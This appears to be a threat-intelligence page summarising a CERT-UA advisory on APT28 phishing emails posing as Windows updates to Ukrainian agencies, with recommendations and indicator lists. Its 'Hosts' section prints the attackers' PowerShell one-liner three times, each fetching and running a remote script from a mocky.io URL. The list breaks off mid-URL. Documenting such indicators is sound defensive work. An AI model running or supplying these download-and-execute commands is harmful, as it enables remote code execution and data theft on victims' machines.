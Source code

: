 ```yaml
---
description: '2023-04-30'
---
```


# CERT-UA About APT28 & Powershell phishing

General Information

The Government Computer Emergency Response Team of Ukraine (CERT-UA) has observed cases of email distribution among Ukrainian government agencies with the subject "Windows Update" during April 2023. These emails are purportedly sent on behalf of department system administrators. The sender email addresses, created on the public service "@outlook.com," may be formed using the real surname and initials of an employee.

A typical email contains instructions in Ukrainian regarding "updates for protection against hacker attacks" and graphical representations of the command line execution and PowerShell command.

The mentioned group will download a PowerShell script that, simulating the operating system update process, ensures the download and execution of the following PowerShell script designed to gather basic computer information using "tasklist" and "systeminfo" commands and send the obtained results via an HTTP request to the Mocky service API.

It is recommended to restrict the ability of users to execute PowerShell and monitor network connections to the Mocky service API.

The activity is carried out by the APT28 group.

Cyber Threat Indicators

Hosts:

powershell $update='windows';$url='[https://www.catalog.update.microsoft.com/scopedviewinline.aspx?updateid=a4b6625c-226e-4dbc-baec-1dbd854b8015';$command='run';$version='v3';$updateid='1e88179a-3105-4a5c-9eb3-aebea36e9c21';$scheme='http://';$url=$scheme+$command+'.mocky\[.\]io/'+$version+'/'+$updateid;$r=(new-object](https://www.catalog.update.microsoft.com/scopedviewinline.aspx?updateid=a4b6625c-226e-4dbc-baec-1dbd854b8015%27;$command=%27run%27;$version=%27v3%27;$updateid=%271e88179a-3105-4a5c-9eb3-aebea36e9c21%27;$scheme=%27http://%27;$url=$scheme+$command+%27.mocky%5B.%5Dio/%27+$version+%27/%27+$updateid;$r=\(new-object) system.net.webclient).downloadstring($url);powershell $r;\&exit powershell $update='windows';$url='[https://www.catalog.update.microsoft.com/scopedviewinline.aspx?updateid=a4b6625c-226e-4dbc-baec-1dbd854b8015';$command='run';$version='v3';$updateid='3b44f33d-b6e5-4ec6-b120-99b6ac52f74b';$scheme='http://';$url=$scheme+$command+'.mocky\[.\]io/'+$version+'/'+$updateid;$r=(new-object](https://www.catalog.update.microsoft.com/scopedviewinline.aspx?updateid=a4b6625c-226e-4dbc-baec-1dbd854b8015%27;$command=%27run%27;$version=%27v3%27;$updateid=%273b44f33d-b6e5-4ec6-b120-99b6ac52f74b%27;$scheme=%27http://%27;$url=$scheme+$command+%27.mocky%5B.%5Dio/%27+$version+%27/%27+$updateid;$r=\(new-object) system.net.webclient).downloadstring($url);powershell $r;\&exit powershell $update='windows';$url='[https://www.catalog.update.microsoft.com/scopedviewinline.aspx?updateid=a4b6625c-226e-4dbc-baec-1dbd854b8015';$command='run';$version='v3';$updateid='ef206b51-4cf4-4c93-90bf-1e66673315b0';$scheme='http://';$url=$scheme+$command+'.mocky\[.\]io/'+$version+'/'+$updateid;$r=(new-object](https://www.catalog.update.microsoft.com/scopedviewinline.aspx?updateid=a4b6625c-226e-4dbc-baec-1dbd854b8015%27;$command=%27run%27;$version=%27v3%27;$updateid=%27ef206b51-4cf4-4c93-90bf-1e66673315b0%27;$scheme=%27http://%27;$url=$scheme+$command+%27.mocky%5B.%5Dio/%27+$version+%27/%27+$updateid;$r=\(new-object) system.net.webclient).downloadstring($url);powershell$r;\&exit

Network:

146\[.]70.105.61 (@m247.ro) 77\[.]75.78.125 (Received) hXXp://mockbin\[.]org/bin/4aa17a07-7635-4ee0-9f3a-449fcd91f342 hXXp://mockbin\[.]org/bin/e8bfd045-2b14-4afc-9372-b723f7d76918 hXXp://mockbin\[.]org/bin/b8427b58-7497-46cd-a5b2-6ff6a40b4592 hXXp://run.mocky\[.]io/v3/1e88179a-310
